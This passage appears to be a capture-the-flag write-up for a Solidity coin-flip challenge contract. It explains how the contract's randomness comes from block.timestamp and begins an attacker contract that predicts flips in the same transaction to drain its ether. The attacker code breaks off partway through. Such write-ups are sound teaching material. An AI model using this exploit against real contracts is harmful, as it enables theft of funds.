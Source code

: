 Based on the source code of the contract itself, we can learn a couple of things

- The contract is basically a coin flipping game.
- The `guess()` function essentially allows us to enter the game and make a guess, making the address who called this function the `currentPlayer`.
- The `revealResults()` function makes a `flipCoin()` and uses that as the comparison against the `guess()`.
- If you win a coin flip 3 times consecutively, you can claim claim all the ether you've won plus 1 additional ether through `WithdrawFirstWinPrizeMoneyBonus()`
  - This additional 1 ether bonus only applies on your first win.
- We solve the problem when we drain all the funds from the contract itself.
  - We can determine the amount of funds in the contract by running `web3.eth.getBalance(contractAddress)`, which tells us that there's 5 ether in the contract itself when we deploy the contract
  ![image](https://user-images.githubusercontent.com/33711159/173046447-fdef0e74-81ea-49c5-b039-bcf2459f3fb4.png)



## Exploit 1 - Predictable Block Timestamp
Let's take a look at how the results of the `flipCoin()` function gets generated
```solidity
function flipCoin() private view returns (CoinFlipOption) {
    return
        CoinFlipOption(
            uint(
                keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
            ) % 2
        );
}
```

- `keccak256(abi.encodePacked(block.timestamp ^ 0x1F2Df76A6))` -- According to the [documentation](https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties:~:text=keccak256(abi.encodePacked(a%2C%20b))%20is%20a%20way%20to%20compute%20the%20hash%20of%20structured%20data), this computes the hash of some structured data. 

What is interesting to us is the use of `block.timestamp` over here, which according to the [solidity documentation](https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties), is essentially the current block's timestamp in seconds --> in other words, a deterministic value.

So I guess the question is, how do we exploit this idea? When a transaction is made, it gets stored onto a block and it is this particular block's timestamp that we are interested in. 

In order to exploit this, we first got to call the `guess()` function along with the `revealResults()` function *in the same transaction(, so something like this:

```solidity
contract Attack {
    RollsRoyce victim;
    address owner;

    constructor(address payable _addr) public payable {
        owner = msg.sender;
        victim = RollsRoyce(_addr);
    }

    function flipCoin() private view returns (RollsRoyce.CoinFlipOption) {
        return
            RollsRoyce.CoinFlipOption(
                uint256(
                    keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
                ) % 2
            );
    }

    function win() public payable {
```